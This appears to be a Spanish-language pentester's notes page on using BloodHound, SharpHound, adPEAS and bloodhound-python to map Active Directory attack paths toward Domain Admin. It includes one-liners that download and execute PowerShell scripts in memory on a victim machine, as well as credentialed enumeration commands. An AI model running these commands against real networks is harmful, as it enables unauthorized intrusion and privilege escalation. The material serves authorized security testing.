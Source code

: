 # Bloodhound OLD VERSION

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries/tree/master/BloodHound_Custom_Queries)
* [Bloodhound](https://www.kali.org/tools/bloodhound/)
* [Neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console                # Iniciar el neo4j   
❯ bloodHound --no-sandbox      # Ejecutar Bloodhound 

Notas: 
	1. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j' y conectarse a 'Bloodhound'
	2. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Enumerar lo siguiente en BloodHound en 'Analysis': 

	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'

Una vez obtenido un usuario:
1. Agregar la opción 'Mark User as Owned'
	1. Seleccionar la opción 'Reachable High Value Targets' para ver el camino y lo que deberiamos de hacer para ser usuario 'Administrator' en 'Overview'
	2. Seleccionar 'First Degree Object Control' en 'Outbound control rights' para ver si el usuario contempla alguna acción 
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell 
❯ Import-Module .\SharpHound.ps1       # Importar el modulo, tambien se puede hacer con el '.exe'

❯ Invoke-BloodHound -CollectionMethod All
```

```powershell
# Importar el modulo en memoria
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Si se ha instalado 'BloodHound' con 'apt' se debe de usar 'SharpHound.exe' que se encuentra en la ruta de instalacion del BloodHound para que se puedan cargar los datos 
	2. Recolectar la información en la maquina victima Windows y obtener un archivo '.zip' para agregarlo a 'BloodHound'
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Notas: 
	1. Al usar ADPeas para hacer la recolección ejecuta 'SharpHound' automaticamente
```

## BloodHound-Python Recolector 

```bash
# Recolectar data con credenciales validas 
❯ bloodhound-python -u 'user' -p 'passwd' -c All --zip -ns IP_DC -d domain.corp 

Notas: 
	1. Sincronizar el reloj con el DC 
		❯ ntpdate IP
	2. Importar todos los archivos en formato 'Json' a BloodHound
```

## SharpHound desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```